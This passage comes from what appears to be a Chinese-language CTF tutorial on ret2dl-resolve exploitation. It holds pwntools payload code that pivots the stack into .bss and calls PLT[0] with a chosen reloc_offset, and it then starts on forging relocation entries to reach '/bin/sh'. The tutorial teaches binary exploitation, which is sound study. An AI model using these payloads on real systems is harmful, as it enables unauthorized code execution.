 ```
```

和“栈迁移原理”一部分介绍的一样，我们先通过`read`构造在`.bss`段的栈，其内容由`payload2`决定，在这里我们直接传入了`write_plt`的地址，会直接调用`write`函数并取指定buffer内容输出，结果如下：

![](https://lgyserver.top/wp-content/uploads/2022/04/1-3.png)

## 步骤2：截获reloc\_offset

刚才我们是知道了`write`函数的具体调用地址，然后直接传进去了，实际上由原理说明部分讲的那样，当程序不知道`write`链接到那儿的时候，是要进行动态连接的，如何跳转到动态链接过程？

在“原理说明”的plt表介绍时曾说，PLT\[0\]储存的信息能用来跳转到动态链接器。因此我们在上面的`write_plt`的地方传入PLT\[0\]，并把`write`函数的`offset`压在后面，这样应该可以根据我们前面所说的那样，调用起动态连接过程，填充`write`的PLT表，并跳转到`write`执行。

write的offset是多少？上面已经说到了，是push进去的`0x20`。

![](https://lgyserver.top/wp-content/uploads/2022/04/2-3.png)

```
...
cmd = "/bin/sh"
plt_0 = 0x08049020 # objdump -d -j .plt bof，动态链接器，PLT[0]的地址
reloc_offset = 0x20 # write的偏移

payload2 = 'AAAA'
payload2 += p32(plt_0) # 跳转到动态链接器
payload2 += p32(reloc_offset)# 传一个自己的reloc_offset 

# 下面不变
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

结果仍然是打印出`/bin/sh`

![](https://lgyserver.top/wp-content/uploads/2022/04/3-3.png)

## 步骤3：伪造reloc\_offset，从而伪造reloc

这里的`reloc`是指在`_dl_fixup`源码里面的第一句

```
// 首先通过参数reloc_arg计算重定位入口，这里的JMPREL即.rel.plt，reloc_offset即reloc_arg
const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
```

`reloc_offset`是相对于`.rel.plt`段的偏移，我们要更改这个偏移，让`reloc`找到我们`.bss`段内伪造的值。
